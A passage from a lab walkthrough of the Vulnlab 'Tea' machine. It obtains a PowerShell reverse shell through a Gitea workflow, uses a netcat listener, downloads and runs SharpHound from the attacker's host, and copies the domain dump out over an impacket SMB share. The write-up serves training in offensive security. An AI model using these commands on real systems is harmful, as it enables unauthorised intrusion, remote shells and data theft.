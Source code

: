 ![](/images/vulnlab/tea-vl/g.png)

I just used a simple PowerShell reverse shell downloaded from [revshells.com](https://www.revshells.com/). You should be able to use any type of reverse shell, so long as it is runnable through PowerShell. We'll start up our listener with `rlwrap nc -lvnp 9001`, and then commit this file to the branch.

If everything was done correctly, you should see a small yellow icon next to the `Update .gitea/workflows/daz.yaml` title in your repository. This means that the runner is being built.

After about a minute or so, we'll look back at our reverse shell and see that we successfully gained shell execution as `thomas.wallace`.

![](/images/vulnlab/tea-vl/h.png)

The first flag is within `thomas.wallace\Desktop`, meaning we have completed the first part of this chain.

# Domain Enumeration

The next portion was relatively simple - as since we have command execution on the machine we can assume that the next part of privilege escalation will be through credential hunting.

Since we are within a workstation that is domain-joined as what we would assume would be a domain user, we can simply dump the domain using [SharpHound](https://github.com/BloodHoundAD/SharpHound) and import all of the ACLs it finds into the [Bloodhound GUI](https://github.com/BloodHoundAD/BloodHound). This will allow us to view all of the domain principals that we may have privilege over (allowing us to pivot to other users).

To start, we'll need to compile the SharpHound C# data collector in Visual Studio. Once we have it compiled, we can move it to the machine to execute.

```
PS C:\temp> curl http://10.8.0.173:9002/SharpHound.exe -O SharpHound.exe
PS C:\temp> .\SharpHound.exe --CollectionMethods All --ZipFileName dump.zip

2024-08-25T20:42:57.1486891-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-08-25T20:42:57.7122011-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
......
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-08-25T20:43:47.4178396-07:00|INFORMATION|SharpHound Enumeration Completed at 8:43 PM on 8/25/2024! Happy Graphing!
```

This should create a compressed archive containing all of the relevant ACLs to the machine. We'll bring this back to our machine using an SMB server.

```
└─$ mkdir share
└─$ impacket-smbserver -smb2support smb share/ -username daz -password Password123@

PS C:\temp> net use \\10.8.0.173\smb /user:daz Password123@
The command completed successfully.

PS C:\temp> cp 20240825204346_dump.zip \\10.8.0.173\smb\20240825204346_dump.zip
```
